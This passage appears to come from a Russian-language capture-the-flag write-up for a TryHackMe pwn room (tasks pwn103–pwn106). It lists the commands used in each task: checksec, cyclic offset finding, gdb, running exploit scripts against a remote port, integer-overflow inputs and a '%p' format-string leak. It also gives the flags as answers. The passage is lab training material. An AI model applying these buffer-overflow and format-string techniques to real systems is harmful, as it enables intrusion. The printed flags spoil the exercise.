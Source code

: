 ```commandline
python3 pwn103.py REMOTE <IP> 9003
```
```commandline
THM{w3lC0m3_4Dm1N}
```

## Задание 5
Задача выполняется на порту 9004 
### Ответьте на вопросы ниже
Отправить флаг
```commandline
file pwn104.pwn104
checksec pwn104.pwn104
./pwn104.pwn104
cyclic 100 
gdb -q pwn104.pwn104
r
cyclic -l waaa
python pwn104.py
python pwn104.py REMOTE <IP> 9004
ls -al
cat flag.txt
```
```commandline
THM{0h_n0o0o0o_h0w_Y0u_Won??}
```
## Задание 6
Задача выполняется на порту 9005.
### Ответьте на вопросы ниже
Отправить флаг
```commandline
file pwn105.pwn105
checksec pwn105.pwn105
./pwn105.pwn105
1
1
./pwn105.pwn105
2147483647
1
python pwn105.py REMOTE <IP> 9005
-2147483648
ls -la
cat flag.txt
```
```commandline
THM{VerY_b4D_1n73G3rsss}
```

## Задание 7
Задача выполняется на порту 9006.
### Ответьте на вопросы ниже
Отправить флаг
```commandline
file pwn106user.pwn106-user
checksec pwn106user.pwn106-user
./pwn106user.pwn106-user
pwn
./pwn106user.pwn106-user
%p.%p.%p.%p.%p.%p

echo 0x564c8184f380 | xxd -r -p ; echo 0x5b5858587b4d4854 | xxd -r -p
```